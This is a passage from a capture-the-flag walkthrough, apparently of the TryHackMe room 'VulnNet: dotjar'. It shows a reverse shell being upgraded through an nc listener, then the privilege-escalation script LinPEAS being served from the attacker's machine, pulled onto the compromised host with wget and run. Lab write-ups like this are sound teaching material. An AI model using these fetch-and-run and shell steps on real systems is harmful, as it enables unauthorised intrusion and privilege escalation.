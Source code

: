 ## Reverse Shell

First thing as always is upgrade to a better shell:

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
web@vulnnet-dotjar:/$ ^Z
zsh: suspended  nc -nlvp 1234
┌──(root💀kali)-[~/thm/dotjar]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1234
web@vulnnet-dotjar:/$ stty rows 52 cols 237
```

I had a look around, other than finding another user called jdk-admin there wasn't anything obvious. Time to try LinPEAS and see if we can find anything. Get the latest version and start a web server on Kali so we can get to it:

```text
┌──(root💀kali)-[~/thm/dotjar]
└─# wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
--2021-04-28 21:20:55--  https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 332111 (324K) [text/plain]
Saving to: ‘linpeas.sh’
linpeas.sh                 100%[===========================================================>] 324.33K  --.-KB/s    in 0.05s   
2021-04-28 21:20:55 (5.81 MB/s) - ‘linpeas.sh’ saved [332111/332111]

┌──(root💀kali)-[~/thm/dotjar]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now back on the server we can pull the file over and run it:

```text
web@vulnnet-dotjar:/dev/shm$ wget http://10.8.165.116/linpeas.sh
--2021-04-28 22:08:43--  http://10.8.165.116/linpeas.sh
Connecting to 10.8.165.116:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 325018 (317K) [text/x-sh]
Saving to: ‘linpeas.sh’
linpeas.sh        100%[==============>] 317.40K  1.44MB/s    in 0.2s    
2021-04-28 22:08:43 (1.44 MB/s) - ‘linpeas.sh’ saved [325018/325018]

web@vulnnet-dotjar:/dev/shm$ chmod +x linpeas.sh 
web@vulnnet-dotjar:/dev/shm$ ./linpeas.sh
```
